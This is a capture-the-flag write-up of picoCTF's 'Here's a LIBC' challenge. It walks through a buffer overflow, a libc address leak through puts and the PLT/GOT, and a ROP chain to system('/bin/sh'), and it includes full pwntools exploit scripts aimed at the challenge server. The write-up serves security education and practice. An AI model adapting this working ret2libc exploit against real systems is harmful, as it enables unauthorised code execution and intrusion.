# PicoCTF Here's a LIBC

Writeup by SpiffyLich


## Tools Used:
- [Pwndbg](https://github.com/pwndbg/pwndbg)
- [Pwntools](https://docs.pwntools.com/en/stable/)
- [Pwninit](https://github.com/io12/pwninit)
- [Ghidra](https://ghidra-sre.org/)
## Description

Buckle up everyone! While this exploit isnt the most complicated, by virtue of being a libc-leak, it DOES have a lot of moving parts. Sit down with a sandwich and some coffee, cuz this one is going to take a minute!


Initial thoughts: I couldn't get the binary to run initially; I think the libc used was older / out of date. To bypass this, I had to use [pwninit](https://github.com/io12/pwninit), which Auto-magically sets up the binary for us.

According to checksec, the binary in question has NX set (so no free shellcode...)
but, no anonying canaries, and no full ASLR. In other words, while we **cant** put literally whatever we want on the stack and execute it, we **CAN** use whatever happens to be in the binary... including anything it happens to reference ***(cough cough libc)***.


next up, we'll run it to get an idea of what were dealing with, before opening it up in Ghidra.





before going any further, lets enable core-dumps with
> ulimit -S -c unlimited


This will allow us to see where our target crashed after the fact, by viewing it in gdb. 


Now OK, you annoying program,
How do you handle 270 bytes of nonsense?!


Yeah, not well. it looks like we're dealing with a classic buffer overflow.


We could use pwndbg to get a more precise view of what's going on, but I'll keep my word and we'll take an overhead view in Ghidra.


Opening this guy up in Ghidra,  we take a look at the symbol tree to see if we cant get a little lucky, and hey- there's already an interestingly named function, "do_stuff".




Looking at do_stuff, we can see some interesting... uh, stuff... going on. there's a 112 byte buffer, a scanf function that seems to take-in bytes until it receives a newline, a for-loop that appears to change the case of the first 100 bytes, a puts call to display the results to the screen, as well as an expected return.

Right now, I *expect* we'll overflow the buffer and try and abuse puts(), but we'll see in a bit.



Since we generated a core earlier, lets have a look at it with:

> gdb ./vuln_patched -core ./corefilename

Well, it certainly looks like we crashed at an address that we input...




putting 0x6261616b6261616a into cyclic -l gives us 136. This will be the size of the padding we need, before putting our chosen return address.

Next, I wrote a small script with pwntools to quickly test this all out.

```python
from pwn import *

# so we can autosplit our view when using tmux
context.update(terminal=['tmux', 'splitw', '-v'])

# allows us to slip into debug mode if necessary
if  (len(sys.argv) <= 1):
        print("running process as normal...")
        p = process("./vuln_patched")
elif sys.argv[1] == "dbg":
        print("entering debug mode!")
        p = gdb.debug("./vuln_patched", gdbscript='''
init-pwndbg
''')


padding = b'A'* 136
ret = p64(0xdeadbeef)

exploit = padding+ret

p.sendline(exploit)
p.interactive()

```

 0xdeadbeef is chosen as the classic return address, so we can tell that the program returned precisely to the address we want.




Sweet! with the return address in our control, we can execute *whatever we want* related to the binary, with the caveat being that we have to actually **have** said address. 


## Exploit: The Plan

But HOLD UP: theres hardly anything interesting in this binary! True, but since puts() is here, we may have a shot at leaking a libc pointer. More specifically, we'll make use of our old friends: the PLT and GOT.

There's a lot of detail that I dont have the time to cover here, and both the PLT and GOT could probably have a book on them, but the plan is basically this:

1.) We use pwndbg to find the PLT and GOT addresses for puts().


- looks like 0x601018 is our GOT address for puts, 
and 0x400540 is the PLT address. 


2.) We use ropper or rp++ to find ROP gadgets that will allow us to setup registers for arbitrary function calls, allowing us to actually call puts.



these two here will let us setup the first 2 arguments, sweet!


3.) In our code, we CALL the PLT version of puts, and for the argument, we place the address of the dynamic GOT-puts that we found.  this SHOULD leak the address, and tell us where libc is. Overall, our ROP-chain should look something like this:
<br />



4.) Were almost done, now we use nm -D on the provided library to find out what the offset of our desired function(s) are. 

I.e: whenever we leak the libc address, to find out where the START of libc is, we will subtract the value in here from that address. in this case, we're leaking puts(), so we'll subtract 0x80a30 from it.
<br />


Once we have libc-base and an offset, we can call literally anything IN libc, by just running the above nm command again, and adding our desired functions offset to the found libc-base.

## Exploit: The Execution

So, we can leak a pointer, but how do we grab and use it?

Well, one way is to skip junk data in our buffer in our process,
until we get to where the puts call should be, and then read in the correct # of bytes.

its a little ugly, but I couldn't find another consistent method to work in this case.

After that, we call main(), to restart the program- effectively allowing us to exploit the same vulnerability twice- this time though, we're going to system()


```python
from pwn import *

context.update(terminal=['tmux', '.splitw', '-v'])

HOST = "mercury.picoctf.net"
PORT = 23584


if  (len(sys.argv) <= 1):
        print("running process as normal...")
        p = process("./vuln_patched")
elif sys.argv[1] == "dbg":
        print("entering debug mode!")
        p = gdb.debug("./vuln_patched", gdbscript='''
init-pwndbg
''')
elif sys.argv[1] == "remote":
        print("[!] Attempting to start remote session...\n\n")
        p = remote(HOST, PORT)


puts_offset = 0x80a30

puts_PLT = 0x400540

puts_GOT = 0x601018


pop_RDI = 0x400913

pop_RSI = 0x400911

main = 0x400771

ret = 0x40052e


padding = b'A'* 136

exploit = padding+p64(pop_RDI)+p64(puts_GOT)+p64(puts_PLT)+p64(main)

# clear out the inital banner message
banner = p.recvuntil('sErVeR!\n')

# now that the message is gone, we're free to send out exploit...
p.sendline(exploit)

# theres gonna be a lot of junk sent back at us, so clean that up...
banner2 = p.recvline()

# grab the next 6 bytes, they should be our addr...
# we'll just roughly format them  to work.
leaked = u64(p.recv(6)+b"\x00\x00")


# now we can calculate the offset....
libc_base = (leaked - puts_offset)

# again, found with nm command
system = libc_base + 0x4f4e0

binsh_offset = 0x1b40fa

bin_sh = libc_base + 0x1b40fa


exploit2 = padding+p64(ret)+p64(pop_RDI)+p64(bin_sh)+p64(system)

p.sendline(exploit2)
print("Leaked Addr: " + hex(leaked))
print("Libc Base: " + hex(libc_base))
p.interactive()

```

In my case, I made an exploit2 string, where I calculated where system() should be with nm -D, and I used vmmap in pwndbg to find "/bin/sh" in libc.

with both of these in place, I just needed a basic ROP chain and....
<br />

We got our flag!!
